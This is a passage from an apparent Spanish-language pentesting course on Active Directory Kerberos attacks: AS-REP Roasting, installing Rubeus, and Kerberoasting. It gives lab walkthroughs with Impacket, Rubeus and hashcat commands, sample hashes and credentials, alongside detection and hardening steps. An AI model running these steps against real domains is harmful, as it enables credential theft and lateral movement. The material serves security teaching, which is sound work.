| ¿Qué herramienta usar?              | `kerbrute` es la más rápida y precisa         |
| ¿Cómo defenderse?                   | Lockout, monitoreo y detección de eventos     |

---

[🔼](#índice)

---

## **308. AS-REQ Roasting**

### 🧠 ¿Qué es AS-REP Roasting?

**AS-REP Roasting** es un ataque contra Active Directory que **permite obtener contraseñas cifradas (hashes)** de ciertos usuarios sin necesidad de autenticarse previamente. Luego esos hashes pueden ser **crackeados offline** usando herramientas como `hashcat` o `john`.

---

### 🎯 ¿Cuándo es posible hacer este ataque?

Cuando un usuario de dominio tiene habilitada la opción:

> ✅ "**No requiere preautenticación Kerberos**"

Esto es una **configuración insegura** y poco común por defecto, pero si existe, el atacante puede obtener un hash TGT (Ticket Granting Ticket) sin autenticarse.

---

### 📌 ¿Por qué funciona?

Kerberos normalmente exige que el cliente envíe una "preautenticación" (timestamp cifrado con su clave). Si se desactiva esa protección, el **KDC responde directamente con un mensaje cifrado con la clave del usuario**. Ese mensaje se puede guardar y crackear.

---

### 🧰 Herramientas utilizadas

| Herramienta        | Descripción                                |
| ------------------ | ------------------------------------------ |
| `Impacket`         | Para enviar AS-REQs sin preautenticación   |
| `Rubeus` (Windows) | Herramienta ofensiva para post-explotación |
| `hashcat` / `john` | Para crackear los hashes obtenidos         |

---

### 🛠️ ¿Cómo detectar usuarios vulnerables?

En PowerShell (con permisos):

```powershell
Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object { $_.DoesNotRequirePreAuth -eq $true }
```

Este comando devuelve los usuarios que **no requieren preautenticación**.

---

### 🔧 Instalación: Impacket

En Kali Linux o Parrot:

```bash
sudo apt install python3-impacket -y
```

O desde GitHub:

```bash
git clone https://github.com/fortra/impacket
cd impacket
pip3 install .
```

---

### ✅ Paso a paso de AS-REP Roasting

Supongamos:

- Dominio: `empresa.local`
- IP del DC: `10.0.0.1`
- Usuario vulnerable: `gustavo` (sin preautenticación habilitada)

---

#### 🔍 1. Obtener el hash con `GetNPUsers.py`

```bash
python3 impacket/examples/GetNPUsers.py empresa.local/ -usersfile usuarios.txt -dc-ip 10.0.0.1 -no-pass
```

Contenido de `usuarios.txt`:

```txt
gustavo
```

📥 Salida de ejemplo:

```
$krb5asrep$23$gustavo@EMPRESA.LOCAL:8f456b08700f1ca...
```

Ese es el **hash AS-REP** de la cuenta `gustavo`.

---

#### 🔓 2. Crackear el hash offline con Hashcat

Primero, guarda el hash en `hash.txt`:

```bash
echo "$krb5asrep$23$gustavo@EMPRESA.LOCAL:..." > hash.txt
```

Ejecuta `hashcat` con un diccionario:

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

- `-m 18200`: modo AS-REP Roasting
- `-a 0`: ataque por diccionario
- `rockyou.txt`: diccionario de contraseñas

💥 Si el hash se crackea, obtendrás la contraseña en texto plano.

---

### 💡 Ejemplo completo (laboratorio)

#### Escenario

- Dominio: `empresa.local`
- Usuario vulnerable: `gustavo`
- DC IP: `192.168.1.100`
- Kali como atacante

#### Pasos

1. Crear archivo `usuarios.txt`:

```bash
echo "gustavo" > usuarios.txt
```

2. Obtener el hash:

```bash
python3 impacket/examples/GetNPUsers.py empresa.local/ -usersfile usuarios.txt -dc-ip 192.168.1.100 -no-pass
```

3. Guardar el hash en `hash.txt`.

4. Crackear:

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

5. Resultado:

```
gustavo@empresa.local -> contraseña123
```

---

### 🛡️ ¿Cómo proteger Active Directory?

- Asegúrate de que **ningún usuario tenga desactivada la preautenticación**.
- Ejecuta revisiones con PowerShell regularmente.
- Aplica políticas de complejidad y longitud de contraseñas.
- Usa detección de eventos y EDR que reconozcan este tipo de actividad.

---

### ✅ RESUMEN

| Pregunta                  | Respuesta                                       |
| ------------------------- | ----------------------------------------------- |
| ¿Qué es?                  | Ataque que explota cuentas sin preautenticación |
| ¿Qué obtiene el atacante? | Hash Kerberos (AS-REP) para crackear offline    |
| ¿Requiere login?          | ❌ No                                           |
| ¿Cómo se explota?         | Con `GetNPUsers.py` de Impacket                 |
| ¿Cómo se defiende?        | Activar preautenticación en todas las cuentas   |

---

[🔼](#índice)

---

## **309. Instalación Rubeus**

### 🧠 ¿Qué es Rubeus?

**Rubeus** es una herramienta poderosa escrita en **C#** para **interactuar y manipular el protocolo Kerberos** en entornos **Active Directory**. Es muy usada por pentesters y red teamers para:

- Pedir TGTs y TGSs (tickets de Kerberos)
- Hacer ataques **AS-REP Roasting**
- Realizar **Kerberoasting**
- Solicitar tickets (TGTs) con claves (`rc4`, `aes`)
- Realizar **pass-the-ticket**
- Extraer tickets del sistema
- Forjar tickets (Golden y Silver tickets)
- Verificar configuraciones de seguridad de Kerberos

---

### ⚠️ Advertencia

Rubeus **no se ejecuta en Linux ni Kali**, ya que es una herramienta para Windows. Por eso **se usa en un entorno Windows**, generalmente en un **laboratorio de pruebas**, como una máquina Windows 10 dentro del dominio.

> 🔥 ¡No la uses en entornos reales sin autorización! Es una herramienta ofensiva.

---

### 🧰 ¿Qué necesitas para usar Rubeus?

1. Una máquina **Windows (10, 11 o Server)** con **.NET Framework 4.0+**
2. Acceso a la red del dominio (o estar dentro del dominio como usuario)
3. Compilar Rubeus **o** descargar un binario ya compilado

---

### 🔧 Opciones para instalar Rubeus

#### 📥 Opción 1: Descargar ejecutable precompilado

Puedes encontrar ejecutables listos en repositorios como:

```plaintext
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Ahí encontrarás el archivo `Rubeus.exe`.

1. En tu máquina Windows, descarga el archivo.
2. Colócalo en una carpeta como `C:\Tools\Rubeus`.
3. Ábrelo con PowerShell o CMD.

> ⚠️ **El antivirus lo detectará como malware**. Puedes usarlo en entornos controlados (máquinas virtuales con Defender desactivado).

---

#### 🧱 Opción 2: Compilarlo tú mismo

1. Instala Visual Studio en Windows (Community Edition es suficiente).
2. Clona el repositorio original:

```bash
git clone https://github.com/GhostPack/Rubeus.git
```

3. Abre `Rubeus.sln` con Visual Studio.
4. Cambia a **Release x64**.
5. Haz clic en **Build > Build Solution**.
6. Obtendrás `Rubeus.exe` en la carpeta `bin\Release`.

---

### ✅ Ejemplo práctico: AS-REP Roasting con Rubeus

#### 🧪 Escenario

- Usuario vulnerable en el dominio: `gustavo`
- No requiere preautenticación Kerberos
- Estás en una máquina Windows **dentro de la red del dominio**
- Tienes el ejecutable `Rubeus.exe`

---

#### 🧬 Paso 1: Enumerar usuarios AS-REP Roasteables

Abre PowerShell y ejecuta:

```powershell
.\Rubeus.exe asreproast
```

Esto automáticamente enviará peticiones AS-REQ sin preautenticación y si encuentra usuarios vulnerables, mostrará el hash:

```
[*] AS-REP hash for user 'gustavo' found!
$krb5asrep$23$gustavo@...
```

---

#### 💣 Paso 2: Crackear el hash

Guarda ese hash en un archivo `hash.txt` y luego en Kali (o Linux) usa:

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

---

#### 🚀 Otros ejemplos útiles con Rubeus

##### 1. Ver tickets actuales en la máquina

```powershell
.\Rubeus.exe triage
```

##### 2. Extraer tickets y guardarlos

```powershell
.\Rubeus.exe dump
```

##### 3. Solicitar TGT con contraseña

```powershell
.\Rubeus.exe tgtdeleg /user:gustavo /rc4:HASH /domain:empresa.local
```

##### 4. Kerberoasting (pedir TGSs de servicios SPN)

```powershell
.\Rubeus.exe kerberoast
```

---

### 🎯 Resumen

| Elemento               | Detalle                                                  |
| ---------------------- | -------------------------------------------------------- |
| ¿Qué es Rubeus?        | Herramienta para ataques y manipulación de Kerberos      |
| ¿Dónde corre?          | Solo en Windows                                          |
| ¿Requiere dominio?     | Sí, o al menos estar en la red de uno                    |
| ¿Qué permite hacer?    | AS-REP Roasting, Kerberoasting, Tickets, Pass-the-ticket |
| ¿Cómo se instala?      | Descarga binario o compila en Visual Studio              |
| ¿Antivirus lo detecta? | Sí. Solo úsalo en entornos de laboratorio                |

---

[🔼](#índice)

---

## **310. AS-REP Roasting**

### 🧠 ¿Qué es AS-REP Roasting?

**AS-REP Roasting** es una técnica de ataque contra **Active Directory** que permite obtener **hashes de contraseñas de usuarios** que **no requieren preautenticación Kerberos**.

#### 🔐 ¿Qué es la preautenticación?

En Kerberos, normalmente un usuario **debe probar su identidad (con su contraseña)** antes de que el **Controlador de Dominio (DC)** le dé un **ticket (TGT)**. Esto es lo que se llama **preautenticación**.

Pero si un usuario tiene **preautenticación desactivada**, cualquiera puede **pedir un TGT por él** sin necesidad de autenticarse. El DC devolverá un mensaje cifrado **con la clave del usuario** → ese mensaje se puede **crackear offline**.

---

### 🎯 ¿Qué necesitas para hacer AS-REP Roasting?

1. Estar en la **red del dominio** (aunque no estés autenticado)
2. Enumerar usuarios del dominio (con herramientas como `GetNPUsers.py`, `Rubeus`, `Impacket`)
3. Buscar usuarios **sin preautenticación**
4. Obtener sus hashes (tipo AS-REP)
5. Crackear los hashes (con `hashcat` o `john`)

---

### 🛠️ Cómo instalar y usar para hacer AS-REP Roasting

#### Opción 1: Con **Impacket (Linux)**

##### 🔧 Instalación de Impacket

En Kali Linux o Ubuntu:

```bash
sudo apt install python3-impacket -y
```

O desde GitHub:

```bash
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

### ✅ Ejemplo completo: AS-REP Roasting con Impacket

#### 🎯 Escenario

- Dominio: `empresa.local`
- Usuario vulnerable: `gustavo` (sin preautenticación)
- Tienes el nombre del dominio y el DC: `dc.empresa.local`
- Estás en Kali Linux

---

#### 📌 Paso 1: Enumerar usuarios (si no los tienes)

Si tienes credenciales válidas de cualquier usuario del dominio:

```bash
python3 ./examples/GetADUsers.py empresa.local/gonzalo:123456 -dc-ip 192.168.1.10 -all -no-pass
```

Esto te dará una lista de usuarios y sus atributos. Busca los que tengan `Does not require preauth`.

---

#### 📌 Paso 2: Obtener los hashes AS-REP

Usa el script `GetNPUsers.py`:

```bash
python3 ./examples/GetNPUsers.py empresa.local/ -usersfile usuarios.txt -format hashcat -dc-ip 192.168.1.10
```

- `usuarios.txt`: contiene una lista de usuarios del dominio, uno por línea.
- Si alguno no requiere preautenticación, verás algo así:

```bash
$krb5asrep$23$gustavo@EMPRESA.LOCAL:31b2f0... long hash ...
```

Guarda el hash en un archivo, por ejemplo `asrep-hash.txt`.

---

#### 📌 Paso 3: Crackear el hash con Hashcat

```bash
hashcat -m 18200 -a 0 asrep-hash.txt rockyou.txt
```

- `-m 18200`: modo hash AS-REP (Kerberos 5)
- `-a 0`: ataque de diccionario
- `rockyou.txt`: wordlist con contraseñas comunes

🔑 Si tienes suerte, obtendrás la contraseña del usuario vulnerable.

---

### 💡 ¿Y si usas Rubeus (Windows)?

En PowerShell:

```powershell
.\Rubeus.exe asreproast
```

Mostrará todos los hashes de usuarios sin preautenticación. Copias el hash y lo crackeas en Kali o Hashcat.

---

### 🔒 ¿Cómo prevenir AS-REP Roasting?

- **Nunca** configures usuarios sin preautenticación (salvo casos MUY justificados).
- Revisa tus cuentas con este comando en PowerShell:

```powershell
Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object {$_.DoesNotRequirePreAuth -eq $true}
```

- Cambia la configuración de esas cuentas:

```powershell
Set-ADAccountControl -Identity gustavo -DoesNotRequirePreAuth $false
```

---

### 🧪 Laboratorio sugerido

Puedes montar un lab con:

- DC Windows Server 2019 (`empresa.local`)
- Usuario `gustavo` sin preautenticación
- Kali Linux con Impacket

En el DC, crea el usuario vulnerable así:

```powershell
New-ADUser -Name "gustavo" -SamAccountName "gustavo" -AccountPassword (ConvertTo-SecureString "P@ssword123" -AsPlainText -Force) -Enabled $true -DoesNotRequirePreAuth $true
```

---

### ✅ Resumen

| Elemento          | Detalle                                                  |
| ----------------- | -------------------------------------------------------- |
| ¿Qué es?          | Ataque que explota cuentas sin preautenticación Kerberos |
| ¿Qué se obtiene?  | Hash de contraseña del usuario                           |
| ¿Cómo se crackea? | Offline con Hashcat o John                               |
| Herramientas      | Impacket, Rubeus                                         |
| Prevención        | No permitir cuentas sin preautenticación                 |
| Útil para         | Red Team, Pentesting, Ethical Hacking                    |

---

[🔼](#índice)

---

## **311. TGS-REP Roasting (Kerberoasting)**

### 🧠 ¿Qué es TGS-REP Roasting (Kerberoasting)?

Es una técnica de **post-explotación** que permite a un atacante obtener **hashes de contraseñas** de **cuentas de servicio (Service Accounts)** en un entorno **Active Directory (AD)** usando **Kerberos**.

> 🎯 El objetivo es capturar los _tickets TGS_ (de Kerberos) asociados a cuentas de servicio, para luego crackearlos offline.

---

### 📚 ¿Cómo funciona Kerberos a grandes rasgos?

1. El usuario se autentica al DC y recibe un **Ticket Granting Ticket (TGT)**.
2. Cuando quiere acceder a un servicio (por ejemplo: `SQLSERVER`, `HTTP`, etc), solicita un **Ticket Granting Service (TGS)** para ese servicio.
3. El DC responde con un **TGS cifrado con la contraseña del servicio (cuenta de servicio)**.
4. Si tú capturas ese TGS, puedes **crackearlo offline** y obtener la contraseña del servicio.

---

### 🧨 ¿Por qué esto es útil para un atacante?

- Muchas veces las **cuentas de servicio** tienen **privilegios elevados** (¡algunas incluso son Domain Admins 😱!).
- Suelen tener **contraseñas débiles o sin rotación** porque se usan en aplicaciones y no deben cambiarse con frecuencia.

---

### 🔧 ¿Qué necesitas para hacer Kerberoasting?

1. Acceso a la red del dominio y credenciales de **un usuario válido del dominio**.
2. Herramientas para solicitar tickets TGS y extraer los hashes:

   - En Windows: `Rubeus`, `SharpRoast`
   - En Linux: `Impacket`, `GetUserSPNs.py`

---

### 🛠️ Ejemplo práctico con Linux (Impacket)

---

#### 🧪 Escenario

- Dominio: `empresa.local`
- Usuario: `gustavo` con contraseña `P@ssword123`
- Controlador de Dominio (DC): `192.168.1.10`

---

#### 📌 Paso 1: Instalar Impacket

```bash
sudo apt install python3-impacket -y
```

O desde GitHub:

```bash
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

#### 📌 Paso 2: Ejecutar `GetUserSPNs.py` para Kerberoasting

```bash
python3 ./examples/GetUserSPNs.py empresa.local/gustavo:P@ssword123 -dc-ip 192.168.1.10 -request
```

Esto hará 3 cosas:

1. Autenticarse al dominio con el usuario `gustavo`.
2. Buscar **cuentas de servicio con SPNs registrados**.
3. Solicitar tickets TGS para ellas.
4. Imprimirá los **hashes Kerberos** que puedes crackear.

👀 Ejemplo de salida:

```bash
$krb5tgs$23$*sqladmin$EMPRESA.LOCAL$MSSQLSvc/sqlserver.empresa.local:1433$abcdef...<<hash>>
```

---

#### 📌 Paso 3: Crackear el hash

Guarda los hashes en un archivo, por ejemplo `tgs_hashes.txt`, y usa:

```bash
hashcat -m 13100 -a 0 tgs_hashes.txt rockyou.txt
```

- `-m 13100`: modo para Kerberos 5 TGS-REP (RC4)
- `rockyou.txt`: wordlist con contraseñas

---

### 💡 ¿Y si estás en Windows?

Puedes usar la herramienta **Rubeus** en PowerShell:

#### 🧪 Paso a paso con Rubeus

1. Abre una consola con privilegios.
2. Ejecuta:

```powershell
.\Rubeus.exe kerberoast
```

Verás la lista de hashes TGS que puedes copiar y crackear.

También puedes especificar formato para Hashcat:

```powershell
.\Rubeus.exe kerberoast /format:hashcat
```

---

### 🔒 ¿Cómo prevenir el Kerberoasting?

1. **No des privilegios elevados a cuentas de servicio** innecesariamente.
2. Usa contraseñas **largas y complejas** (más de 25 caracteres si es posible).
3. Usa **Managed Service Accounts (gMSA)** en lugar de cuentas tradicionales.
4. Detecta SPNs sospechosos con PowerShell:

```powershell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Format-Table Name,ServicePrincipalName
```

---

### ✅ Resumen general

| Concepto               | Descripción                                                   |
| ---------------------- | ------------------------------------------------------------- |
| ¿Qué es Kerberoasting? | Ataque para obtener hashes de cuentas de servicio vía TGS-REP |
| Requiere               | Usuario válido del dominio                                    |
| Herramientas           | Rubeus, Impacket, SharpRoast                                  |
| Qué se obtiene         | Hash de contraseña de la cuenta de servicio                   |
| Cómo crackearlo        | Hashcat (`-m 13100`) o John                                   |
| Prevención             | Contraseñas fuertes, gMSA, limitar privilegios                |

---

### 🧪 Laboratorio recomendado

Puedes montar un entorno con:

- **DC Windows Server** (`empresa.local`)
- **Usuario** `gustavo`
- **Cuenta de servicio** con SPN: `sqladmin` con SPN `MSSQLSvc/sqlserver.empresa.local:1433`
- Atacante en Kali con Impacket

En el DC, crea la cuenta de servicio así:

```powershell
New-ADUser -Name "sqladmin" -SamAccountName "sqladmin" -AccountPassword (ConvertTo-SecureString "Admin1234" -AsPlainText -Force) -Enabled $true
Set-ADUser -Identity sqladmin -ServicePrincipalNames @{Add="MSSQLSvc/sqlserver.empresa.local:1433"}
```

---

[🔼](#índice)

---

| **Inicio**         | **atrás 1**                                         | **Siguiente 3**                                              |
| ------------------ | --------------------------------------------------- | ------------------------------------------------------------ |
| [🏠](../README.md) | [⏪](./5_1_Recopilacion_avanzada_de_informacion.md) | [⏩](./5_3_Acceso_a_credenciales_y_movimientos_laterales.md) |
